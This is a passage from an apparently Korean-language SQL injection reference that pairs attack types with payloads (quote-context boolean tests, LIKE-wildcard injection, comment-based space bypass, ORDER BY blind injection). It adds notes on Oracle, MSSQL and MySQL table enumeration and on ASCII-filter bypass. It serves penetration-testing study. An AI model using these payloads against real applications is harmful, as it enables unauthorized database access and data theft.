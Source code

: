 | attack type | payload |
| --- | --- |
| **사용자의 입력 값이 홑따옴표(')** **혹은 쌍따옴표(")로 감싸진 경우** | `' AND '1'='1   " AND "1"="1` |
| **주석 필터링 우회** | `서버 측의 쿼리문을 예측하여 문법적 오류가 발생하지 않도록 쿼리를 삽입하면 공격이 가능합니다.` |
| **특수문자(%)가 쿼리문에 포함된 경우** | `%' AND LENGTH(user)<10 AND '1%'='1` |
| **띄어쓰기 필터링 우회** | `SELECT/**/name/**/FROM/**/DUAL` |
| **날짜를 처리하는 쿼리문** | `2024-01-01','YYYY-MM-DD') AND 1=1--` |
| **숫자를 처리하는 쿼리문   (ORDER BY, Paging, Number type data)** | `ORDER BY (SELECT+CASE+WHEN+1=1+THEN+1+ELSE+1/0++END+FROM+DUAL)` |

---

## **5. SQL Injection Notes**

SQLi 와 관련해서 알아두면 좋은 내용들입니다.

```
1. 테이블 및 컬럼 확인 시 활용되는 방법
(Oracle - ROWNUM)  
  ㄴ SELECT TABLE_NAME FROM (SELECT TABLE_NAME, ROWNUM AS RNUM FROM USER_TABLES) WHERE RNUM=1  
 
(MSSQL - TOP)
  ㄴ SELECT TOP 1 FROM sysobjects WHERE {조건};  
  
(MySQL - LIMIT)  
  ㄴ SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE {조건식} LIMIT 0, 1;  
  
2.유저(User) 테이블  
  ㄴ (Oracle) USER_TABLES  
  ㄴ (MSSQL) xtype='U'  
  ㄴ (MySQL) TABLE_TYPE='base table'  
 
3. ASCII(SUBSTR(..)) 문자열 길이 초과한 경우  
  ㄴ (Oracle) return False;  
  ㄴ (MSSQL) return False;  
  ㄴ (MySQL) return NULL (ASCII code -> 숫자 0)   
 
4. Difference between '(single quotes) and "(double quotes)  
  ㄴ ' (single quotes) : 문자열을 감싸주는 기호  
  ㄴ " (double quotes) : 테이블·컬럼명을 감싸주는 기호  
  
5. ASCII 함수 필터링 우회  
  ㄴ ASCII 코드 대신 헥스값으로 변환 (RAWTOHEX() : 헥스값 변환 함수)  
  ㄴ RAWTOHEX('a') = 61  
  ㄴ RAWTOHEX(SUBSTR('abc',1,1)) = 61  
  
6. 띄어쓰기 필터링 우회  
  ㄴ SELECT name FROM {TABLE_NAME} == SELECT/**/name/**/FROM/**/{TABLE_NAME}  
  
...
```

---

<h2 style="text-align: center;" data-ke-size="size26"><b>END</b></h2>